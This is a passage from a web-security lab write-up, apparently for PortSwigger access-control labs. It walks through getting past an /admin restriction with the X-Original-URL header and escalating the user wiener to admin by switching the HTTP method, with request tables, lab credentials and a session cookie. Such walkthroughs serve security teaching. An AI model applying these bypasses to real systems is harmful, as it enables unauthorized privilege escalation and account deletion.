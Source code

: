     - Try to access to **/admin**, the message  
    ***Access denied*** will appear.
    - Send the **/admin GET** request to the **Repeater**.
    - Remove **admin** from the URL (keep only **/**), add the **X-Original-URL**
    header with any value and repeat the request, the message  
    ***Not Found*** will appear (***this indicates that the back-end system is processing the URL from the X-Original-URL header***).
    - Set the **X-Original-URL** to **/admin** and repeat the request.
    - Set the **X-Original-URL** to **/admin/delete?username=carlos** and repeat the request, the message  
    ***Missing parameter 'username'*** will appear.
    - Remove **?username=carlos** from the header and add it to the URL.

    ```plaintext
    https://<lab_url>/admin                             GET     403 Forbidden

    https://<lab_url>/                                  GET     404 Not Found   (X-Original-URL: /asdfg)
    https://<lab_url>/                                  GET     200 OK          (X-Original-URL: /admin)
    https://<lab_url>/                                  GET     400 Bad Request (X-Original-URL: /admin/delete?username=carlos)
    https://<lab_url>/?username=carlos                                          (X-Original-URL: /admin/delete)
    ```

6. #### **Method-based access control can be circumvented**

    - Login as **administrator**, upgrade the user **carlos** and take note of the URL flow and the parameters sent.

    ```plaintext
    ...
    https://<lab_url>/admin         GET
    https://<lab_url>/admin-roles   POST    (username=carlos&action=upgrade)
    ...
    ```

    - Logout, login as **wiener** and take note of the URL flow and the parameters sent.

    ```plaintext
    ...
    https://<lab_url>/login/        POST    (username=wiener&password=peter)
    https://<lab_url>/my-account    GET     (Cookie: session=oThfWMkrZwGocUrabMRikdz8ACevqQFh)
    ...
    ```

    - Try to access to **/admin**, the message  
    ***Admin interface only available if logged in as an administrator*** will appear.
    - Send the first **/admin-roles POST** request to the **Repeater**.
    - Set the **session** cookie to the **wiener**'s cookie, set the **username** to **wiener**,
    **Change request method** and repeat the request.

    ```plaintext
    https://<lab_url>/admin-roles   GET     (Cookie: session=oThfWMkrZwGocUrabMRikdz8ACevqQFh,
                                            username=wiener&action=upgrade)
    ```
